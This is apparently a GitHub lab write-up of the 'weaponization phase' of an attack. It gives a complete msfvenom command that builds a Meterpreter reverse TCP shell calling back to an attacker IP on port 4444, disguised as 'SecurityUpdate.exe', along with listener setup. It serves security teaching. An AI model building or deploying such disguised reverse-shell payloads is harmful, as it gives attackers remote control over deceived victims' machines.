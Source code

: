 # 🧪 Weaponization Phase

## 🎯 Objective

Create a malicious payload that, when executed by the victim, initiates a reverse connection and grants the attacker remote access.

---

### ⚙️ Steps

#### 🛠️ Choosing the Exploit Mechanism

* The attacker chooses to use **MSFVenom**, a payload generator included in **Metasploit**.
* A **reverse TCP shell** payload is selected to enable remote control of the victim's system.

#### 💾 Generating the Payload

* The payload is compiled into a 64-bit Windows executable (PE32+).
* It is named `SecurityUpdate.exe` to mimic a legitimate file and avoid raising suspicion.

![payload creation](https://github.com/user-attachments/assets/a7b94074-04e0-431c-b011-2252d538c3de)

---

### 🧬 Payload Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.19.19.134 LPORT=4444 -f exe -o SecurityUpdate.exe
```

---

### 📘 Command Breakdown

| Argument                                 | Description                                                     |
| ---------------------------------------- | --------------------------------------------------------------- |
| `msfvenom`                               | Payload generation tool from the Metasploit Framework.          |
| `-p windows/x64/meterpreter/reverse_tcp` | Specifies a 64-bit reverse TCP Meterpreter payload for Windows. |
| `LHOST=10.19.19.134`                     | IP address of the attacker (listener).                          |
| `LPORT=4444`                             | Port on the attacker’s machine to receive the reverse shell.    |
| `-f exe`                                 | Output format: Windows executable file.                         |
| `-o SecurityUpdate.exe`                  | Output file name.                                               |

---

### 🧾 Verifying Payload Format

Run the following command:

```bash
file SecurityUpdate.exe
```

**Expected Output:**

```
SecurityUpdate.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

✔️ **64-bit architecture**
✔️ **Graphical User Interface (GUI)**
✔️ **Windows Portable Executable (PE) format**

---

### 🖥️ Preparing the Attacker’s Listener

* The attacker configures their machine to listen on **port 4444** using **Metasploit’s multi/handler** module.
* Once the victim executes the payload, the reverse shell will connect to the attacker, granting full control.
